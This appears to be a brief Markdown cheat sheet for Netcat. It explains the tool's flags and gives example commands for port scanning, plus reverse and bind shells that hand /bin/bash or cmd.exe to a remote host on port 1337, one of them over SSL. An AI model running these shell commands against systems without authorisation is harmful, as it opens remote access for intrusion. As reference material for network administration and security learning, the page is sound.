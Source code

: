 ## Netcat

 - A simple utility which reads and writes data across network connections, using TCP and UDP protocols.
 - There are few main operations of Netcat
    - Connecting to TCP/UDP port
    - Listening on TCP/UDP port
    - Transferring files with Netcat
    - Remote Administration with Netcat
    - Checking if the port is open or closed

# Parameter table
 - -n : Do not do any dns or service lookups on any specified address, hostname or port
 - -p : source port
 - -v : verbose
 - -z : specifies that nc should just scan for listening daemons without sending any data to them. It is an error to use this option with conjuction to -l option
 - -l : used to specify that nc should listen rather than initate connection to a remote host    

# Port scanning
 - #### nc -v -n -z -w 1 192.168.1.2 1-1000

# To get remote access on linux from windows
 - #### nc -nv 192.168.23.43 1337 -e /bin/bash
 - #### ncat -lnvp 1337   <-- server

# To get remote access on windows from linux
 - #### nc -nv 192.168.23.43 1337 -e /cmd.exe
 - #### ncat -lnvp 1337     <-- server

# Remote access via ssl and allow method
 - #### ncat --exec cmd.exe --allow 192.168.110.184 -vnl 1337 --ssl   <-- server
 - #### nc -nv 192.168.23.41 1337 --ssl

 
